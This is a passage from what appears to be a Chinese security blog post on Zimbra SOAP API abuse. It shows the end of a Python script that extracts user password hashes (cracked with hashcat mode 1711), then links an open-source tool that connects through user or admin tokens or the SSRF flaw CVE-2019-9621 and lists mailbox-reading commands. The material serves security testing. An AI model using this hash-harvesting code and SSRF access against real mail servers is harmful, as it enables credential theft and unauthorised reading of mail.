 ```
          pattern_password = re.compile(r"word\">(.*?)<")  
          password = pattern_password.findall(data[i])  
          print("[+] User:%s"%(user[0]))  
          print("    Hash:%s"%(password[0]))

      else:
        print("[!]")
        print(r.text)      

    except Exception as e:
        print("[!] Error:%s"%(e))
        exit(0)
```

测试结果如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2020-4-1/6-1.png)

其中导出的hash对应hashcat的Hash-Mode为1711

**注：**

新版本的zimbra无法读取hash，显示`VALUE-BLOCKED`，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2020-4-1/6-2.png)

## 0x05 开源代码
---

代码已开源，地址如下：

https://github.com/3gstudent/Homework-of-Python/blob/master/Zimbra_SOAP_API_Manage.py

代码支持三种连接方式：

- 普通用户token
- 管理员token
- SSRF(CVE-2019-9621)

连接成功后会显示支持的命令

普通用户token支持的命令如下：

```
GetAllAddressLists
GetContacts
GetFolder
GetItem ,Eg:GetItem /Inbox
GetMsg ,Eg:GetMsg 259
```

部分测试结果如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2020-4-1/7-1.png)
